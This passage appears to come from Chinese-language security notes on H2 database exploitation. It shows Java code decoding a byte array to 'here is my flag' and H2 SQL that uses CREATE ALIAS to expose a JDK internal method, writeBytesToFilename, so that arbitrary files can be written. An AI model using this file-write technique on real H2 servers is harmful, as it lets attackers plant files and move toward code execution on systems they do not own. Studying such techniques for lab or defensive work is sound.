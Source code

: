 ![image-20230810163716096](./../.gitbook/assets/image-20230810163716096.png)

读出来的结果为byte数组，还得转为字符串

```java
byte[] bytes = {0x68, 0x65, 0x72, 0x65, 0x20, 0x69, 0x73, 0x20, 0x6d, 0x79, 0x20, 0x66, 0x6c, 0x61, 0x67};
System.out.println(new String(bytes));  // 打印here is my flag
```

虽然`writeBytesToFilename`第二个参数要求为byte数组，但传字符串也行，H2能够自动转换。或者在十六进制字符串前面加个X。

```sql
CREATE ALIAS write FOR 'com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename';
SELECT write('E:/success.txt', 'Arbitrary File Write');
SELECT write('E:/wirte_hex.txt', X'68657265206973206d7920666c6167')
```

![image-20230810164626253](./../.gitbook/assets/image-20230810164626253.png)

